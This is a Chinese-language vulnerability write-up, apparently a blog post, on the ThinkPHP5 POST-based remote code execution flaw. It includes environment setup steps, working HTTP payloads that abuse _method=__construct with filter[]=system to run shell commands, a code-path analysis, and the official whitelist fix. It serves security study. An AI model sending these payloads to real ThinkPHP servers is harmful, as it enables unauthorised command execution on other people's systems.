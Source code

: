 # 原创
：  ThinkPHP5 远程代码执行（POST）

# ThinkPHP5 远程代码执行（POST）

#### ThinkPHP5 远程代码执行（POST）

## 漏洞概要

> 



## 初始配置

> 
获取测试环境代码


```
composer create-project --prefer-dist topthink/think=5.0.20 tpdemo

```

> 
将 composer.json 文件的 require 字段设置成如下


```
"require": {
    "php": "&gt;=5.4.0",
    "topthink/framework": "5.0.23"
},

```

> 
然后执行 `composer update`


## 漏洞利用

> 
Payload


```
# ThinkPHP &lt;= 5.0.13
POST /?s=index/index
s=whoami&amp;_method=__construct&amp;method=&amp;filter[]=system

# ThinkPHP &lt;= 5.0.23、5.1.0 &lt;= 5.1.16 需要开启框架app_debug
POST /
_method=__construct&amp;filter[]=system&amp;server[REQUEST_METHOD]=ls -al

# ThinkPHP &lt;= 5.0.23 需要存在xxx的method路由，例如captcha
POST /?s=xxx HTTP/1.1
_method=__construct&amp;filter[]=system&amp;method=get&amp;get[]=ls+-al
_method=__construct&amp;filter[]=system&amp;method=get&amp;server[REQUEST_METHOD]=ls

```

## 漏洞分析

> 
从官方的修复代码中可以很明显的看出 `$method` 来自可控的 `$_POST` 数组，而且在获取之后没有进行任何检查直接把它作为 `Request` 类的方法进行调用，同时该方法传入的参数是可控数据 `$_POST`，也就相当于可以随意调用 `Request` 类的部分方法


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/e3f961e9d0f94aa59b1e59fd551fb4ca.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/da28a256be2c4ab6ba1070cc5a37b5ee.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
同时可以观察到 `Request` 类的 `__construct` 方法中存在类属性覆盖的功能，这对之后的利用非常有利， `Request` 类的所有属性如下


```
protected $get                  protected static $instance;
protected $post                 protected $method;
protected $request              protected $domain;
protected $route                protected $url;
protected $put;                 protected $baseUrl;
protected $session              protected $baseFile;
protected $file                 protected $root;
protected $cookie               protected $pathinfo;
protected $server               protected $path;
protected $header               protected $routeInfo 
protected $mimeType             protected $env;
protected $content;             protected $dispatch 
protected $filter;              protected $module;
protected static $hook          protected $controller;
protected $bind                 protected $action;
protected $input;               protected $langset;
protected $cache;               protected $param   
protected $isCheckCache;    

```

> 
继续跟进程序发现如果框架在配置文件中开启了 `debug` 模式（ ‘app_debug’=&gt; true ），程序会调用 `Request` 类的 `param` 方法，这个方法需要特别关注了，因为 `Request` 类中的 `param、route、get、post、put、delete、patch、request、session、server、env、cookie、input` 方法均调用了 `filterValue` 方法，而该方法中就存在可利用的 `call_user_func` 函数。


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/c3bb1ed0cd044ea9a272d635f7ef29c9.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/1cc13262ebd54df79e83c6d77e8489d1.png#pic_center"/>

> 
跟进 `param` 方法后发现其调用 `method` 方法， `method` 方法会调用 `server` 方法，而在 `server` 方法中把 `$this-&gt;server` 传入了 `input` 方法，这个 `$this-&gt;server` 的值可以通过先前 `Request` 类的 `__construct` 方法来覆盖赋值，当可控数据作为 `$data` 传入 `input` 方法时，`$data` 会被 `filterValue` 方法使用 `$filter` 过滤器处理，其中 `$filter` 的值部分来自 `$this-&gt;filter` ，又是可以通过先前 `Request` 类的 `__construct` 方法来覆盖赋值


> 
接下来就是 `filterValue` 方法调用 `call_user_func` 处理数据的过程，代码执行也就是发生在这里


> 
接下来再来看看如果没有开启框架调试模式，是否可以利用该漏洞，在 `run` 方法中会执行一个 `exec` 方法，当该方法中的 `$dispatch['type']` 等于 `controller` 或者 `method` 时，又会调用 `Request` 类的 `param` 方法


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/a3c8d43258d64ca2ad0e65a4b2154df7.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/308730dbbf3e40a9b60f5551cffc4393.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
跟进 `Request` 类的 `param` 方法，其后面的调用过程又会和先前的分析一样了<br/> 现在还要解决一个问题，就是如何让 `$dispatch['type']` 等于 `controller` 或者 `method` ，通过跟踪代码发现 `$dispatch['type']` 来源于 `parseRule` 方法中的 `$result` 变量，而 `$result` 变量又与 `$route` 变量有关系，这个 `$route` 变量取决于程序中定义的路由地址方式


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/5e6e831930bc453bae2191c044ffc477.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/c9a2ae45a77f483abd4ba54a71b07ff8.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
ThinkPHP5 中支持5种路由地址方式定义


|定义方式|定义格式
|------
|方式1：路由到模块/控制器|‘[模块/控制器/操作]?额外参数1=值1&amp;额外参数2=值2…’
|方式2：路由到重定向地址|‘外部地址’（默认301重定向） 或者 [‘外部地址’,‘重定向代码’]
|方式3：路由到控制器的方法|‘@[模块/控制器/]操作’
|方式4：路由到类的方法|‘\完整的命名空间类::静态方法’ 或者 ‘\完整的命名空间类@动态方法’
|方式5：路由到闭包函数|闭包函数定义（支持参数传入）

> 
在 ThinkPHP5 完整版中，定义了验证码类的路由地址，程序在初始化时会通过自动类加载机制，将 `vendor` 目录下的文件加载，这样在 `GET` 方式中便多了这一条路由，可以利用这一路由地址使得 `$dispatch['type']` 等于 `method` ，从而完成远程代码执行漏洞


> 
构造出的Payload


```
POST /index.php?s=captcha HTTP/1.1
    ⋮
Content-Length: 59

_method=__construct&amp;filter[]=system&amp;method=get&amp;get[]=ls+-al
# 或者
_method=__construct&amp;filter[]=system&amp;method=get&amp;server[REQUEST_METHOD]=ls

```

## 漏洞修复

> 
官方的修复方法是：对请求方法 `$method` 进行白名单校验


## 攻击总结

> 
参考Mochazz师傅的审计流程

